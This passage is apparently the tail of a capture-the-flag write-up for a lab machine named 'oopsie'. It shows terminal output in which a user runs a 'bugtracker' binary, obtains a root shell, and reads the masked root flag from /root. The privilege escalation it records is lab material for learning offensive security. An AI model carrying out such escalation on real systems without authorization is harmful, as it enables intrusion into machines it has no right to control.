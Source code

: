```
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
2
---------------

# whoami
whoami
root
```

The root flgag can be found in the `/root` folder:

```
# cd /root
cd /root
# ls
ls
reports  root.txt
# cat root.txt
cat root.txt
# /bin/cat root.txt
/bin/cat root.txt
********************************
```

**The end.**